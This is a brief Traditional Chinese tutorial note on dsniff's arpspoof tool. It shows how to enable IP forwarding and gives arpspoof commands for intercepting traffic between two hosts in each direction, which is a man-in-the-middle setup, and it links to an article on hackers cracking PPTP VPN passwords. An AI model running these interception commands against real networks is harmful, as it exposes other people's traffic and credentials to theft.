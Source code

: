 
最後更新： 6/13/2016 7:22:46 PM      

---

```console 
shell> dpkg -L dsniff
shell> arpspoof
```

在使用`arpspoof`之前，為了避免封包沒有轉發，建議先開啟封包轉發功能： 

```console 
echo 1 > /proc/sys/net/ipv4/ip_forward
```

要攔截10.0.0.1送往10.0.0.2的封包，可以執行以下的指令： 

```console 
shell> arpspoof -i eth0 -t 10.0.0.1 10.0.0.2
```

可以這樣解釋，把從10.0.0.1往10.0.0.2送的封包都加以攔截（告訴10.0.0.1我就是10.0.0.2），其中-i選項指的是所使用的網路卡，此例為eth0，請自行代換。 

同樣地，要攔截10.0.0.2送往10.0.0.1的封包，則使用下列的指令： 

```console 
shell> arpspoof -i eth0 -t 10.0.0.2 10.0.0.1
```

`arpspoof`在新的版本中有提供-r這個選項，可同時取得兩個方向的封包，包括10.0.0.1 to 10.0.0.2及10.0.0.2 to 10.0.0.1，所以使用一行指令就能取代上述的兩行指令。 


---

- [驗證駭客破解PPTP手法 驚見VPN帳密全都露](http://www.netadmin.com.tw/article_content.aspx?sn=1601040003)